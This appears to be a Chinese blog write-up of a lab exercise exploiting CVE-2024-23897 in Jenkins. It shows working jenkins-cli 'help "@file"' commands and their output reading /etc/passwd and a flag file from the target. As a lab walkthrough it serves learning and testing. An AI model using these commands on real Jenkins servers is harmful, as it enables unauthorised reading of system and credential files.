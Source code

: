 ```yaml
---
title: 春秋云镜 CVE-2024-23897
tags: [penetration]
date: 2024-10-16 00:00:02
categories: [penetration]
excerpt: 通过help读flag
---
```


## CVE-2024-23897

环境地址：https://yunjing.ichunqiu.com/cve/detail/1172

首先看一下介绍

```
Jenkins 2.441及更早版本，以及LTS 2.426.2及更早版本没有禁用其CLI命令解析器的一个功能，该功能会将参数中'@'字符后跟的文件路径替换为该文件的内容，允许未经身份验证的攻击者读取Jenkins控制器文件系统上的任意文件。
```

这其实就是nvd上的漏洞描述翻译了一下，然后看到这个Jenkins好像也不是开源的，光是这种描述我这种菜鸡怎么理解得了😶‍🌫️（

只能去搜有没有什么现成的东西来抄了

首先是nvd上这个漏洞的界面 [NVD - CVE-2024-23897 (nist.gov)](https://nvd.nist.gov/vuln/detail/CVE-2024-23897)

![](/img/pene/9.png)

在References to Advisories, Solutions, and Tools里给了一些链接，第二个链接我点开一看这不就是现成的exp嘛，这不直接抄过来运行一下就完了

然而实际没这么简单，这exp根本没跑通😶‍🌫️，然后也看不懂。它开了两个线程，每个线程发了一个请求，至于为什么要弄两个线程不懂，那二进制的http body又是啥也不懂😭

又是一顿乱搜，于是发现了这两篇文章：

[Jenkins文件读取漏洞拾遗 CVE-2024-23897](https://cloud.tencent.com/developer/article/2384213)

[CVE-2024-23897漏洞解析 ](https://www.freebuf.com/articles/neopoints/391038.html)

### 利用

首先第一步，是这个jenkins软件本身搞了一个java的客户端，他会帮用户发送一些请求到web上，来实现一些功能（就像写好了一些web接口，然后给你集成了一下）

根据文章介绍，这个客户端可以在 `/jnlpJars/jenkins-cli.jar`资源路径下下载，我在春秋云镜的靶机上成功下下来了

然后第二步，是jenkins本身会调用args4j这个开源的参数解析工具，然后这个工具的一个特点是，会把参数中，以`@`开头的内容，解析成一个文件名，从文件中读取内容来替换这个参数

至于如何使用参数去调用这个cli工具

```zsh
java -jar jenkins-cli.jar -s <ip>:<port> -http ....
```

但是我执行了一个version的命令会报错

```
└─$ java -jar jenkins-cli.jar -s http://8.147.129.74:31171 -http version
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true

ERROR: anonymous is missing the Overall/Read permission
```

如果Jenkins系统关闭了匿名用户可读功能，大部分的cli命令也就无法调用，只有help和who-am-i例外

```zsh
└─$ java -jar jenkins-cli.jar -s http://8.147.129.74:31171 -http help "@/etc/passwd"
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true

ERROR: Too many arguments: daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
java -jar jenkins-cli.jar help [COMMAND]
Lists all the available commands or a detailed description of single command.
 COMMAND : Name of the command (default: root:x:0:0:root:/root:/bin/bash)
```

实际上这种@一个文件作为参数，每一行都会当做一个独立的参数，也就是说行数很多的文件只会展示开头，但是如果文件只有一行也读不出来

```zsh
└─$ java -jar jenkins-cli.jar -s http://8.147.129.74:31171 -http help "@/flag"
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true

ERROR: You must authenticate to access this Jenkins.
Jenkins CLI
```

需要多加几个参数

```zsh
└─$ java -jar jenkins-cli.jar -s http://8.147.129.74:31171 -http help 1 "@/flag"             
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true

ERROR: Too many arguments: flag{52d6bf17-24af-49a1-a62b-f4b0147c133e}
java -jar jenkins-cli.jar help [COMMAND]
Lists all the available commands or a detailed description of single command.
 COMMAND : Name of the command (default: 1)
```

这样也可以

```zsh
└─$ java -jar jenkins-cli.jar -s http://8.147.129.74:31171 -http help "@/flag" "@/etc/passwd"
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true

ERROR: Too many arguments: root:x:0:0:root:/root:/bin/bash
java -jar jenkins-cli.jar help [COMMAND]
Lists all the available commands or a detailed description of single command.
 COMMAND : Name of the command (default: flag{52d6bf17-24af-49a1-a62b-f4b0147c13
           3e})
```



